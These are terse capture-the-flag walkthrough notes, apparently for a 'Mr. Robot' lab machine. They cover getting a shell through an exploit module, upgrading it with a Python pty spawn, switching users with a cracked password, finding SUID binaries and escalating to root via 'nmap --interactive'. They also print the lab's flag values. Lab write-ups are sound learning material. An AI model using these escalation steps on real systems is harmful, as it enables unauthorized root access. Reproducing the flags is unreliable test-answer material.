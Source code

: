 		advanced options
	
		set wpcheck false
		
		exploit
		
		shell 

gain terminal access

		whoami
		
		pwd
		
		ls
		
		cd /home 
		
		ls
		
		cd /robot
		
		ls


SECOND FLAG FOUND [flag]/ username:[password ] but it's md5 encrypted
	
cracked hash website (crack station) has it cracked and listed as [abcdefghijklmnopqestuvwxyz]

switch to robot user

		su robot

you get an error stating you need to be in a terminal


Lateral Movement, New Shell, New User Owned:

		python -c 'import pty;pty.spawn("/bin/bash")'

spawns a terminal

		su robot
		
with the password [abcdefghijklmnopqestuvwxyz]

		cd /robots
		
		ls
		
		cat key-2-of-3.txt = 822c73956184f694993bede3eb39f959
		
		find / -perm -4000 -type f 2>/dev/null

finds files that being ran by their owner

		nmap --version

research time -- it's vulnerable! 

Root escallation: 


		nmap --interactive

		nmap !sudo /bin/bash

		exit

		nmap !sh

		cd /root

		ls

		cat key-3-of-3.txt

Key 3: 04787ddef27c3dee1ee161b21670b4e4

